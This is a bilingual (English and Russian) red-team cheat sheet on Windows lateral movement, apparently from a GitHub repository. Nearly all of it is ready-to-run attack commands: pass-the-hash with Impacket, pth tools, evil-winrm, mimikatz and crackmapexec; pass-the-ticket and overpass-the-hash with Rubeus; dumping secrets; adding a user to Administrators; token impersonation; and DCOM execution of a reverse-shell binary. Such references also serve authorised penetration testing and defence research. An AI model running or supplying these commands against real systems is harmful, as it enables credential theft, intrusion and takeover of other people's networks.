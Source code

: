 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  

**Description**: Если у нас имеется Kerberos-билет TGT (билет пользователя), то мы можем применить егодля аутентификации. При этом Linux и Windows используют разные форматы — ccache и kirbi соответственно.  

  **First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

**WINDOWS (Mimikatz)**:  
mimikatz# kerberos::ptt c:\path\to\tgt.kirbi  
mimikatz# kerberos::ptс c:\path\to\tgt.ccache  
После импорта используем любую нужную нам программу без указания каких‐либо ключей: dir \\dc.company.org\c$  

Под Linux делаем Pass-the-Ticket в формате ccache:  
cp tgt.ccache /tmp/krb5cc_0  
klist  
Конертируем билет в ccache: kekeo.exe "misc::convert ccache ticket.kirbi" "exit"  
После импорта билеты в Linux используем следующим образом:   
  - smbclient -k //dc.company.org/c$  
  - winexe -k yes -N //dc.company.org cmd  
  
Инструменты из набора impacket могут использовать билеты без предварительного импорта: Чтобы использовать Kerberos-билет при аутентификации, нужно обращаться к target по имени, а не по IP-адресу.  

KRB5CCNAME=`pwd`/tgt.ccache psexec.py -k -dc-ip 10.0.0.1 target.domain.com  
KRB5CCNAME=`pwd`/tgt.ccache secretsdump.py -k -no-pass target.domain.com  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap

## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  

## DCOM:  
[Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) example:  
1) powershell-import C:\Tools\Invoke-DCOM.ps1  
2) powershell Invoke-DCOM -ComputerName dc.domain.local -Method MMC20.Application -Command C:\Windows\reverse_shell.exe  
  
**Aditional information and techniques**:  
  - https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model  
  - https://redblue42.code42.com/detecting-lateral-movement-via-dcom/  



  
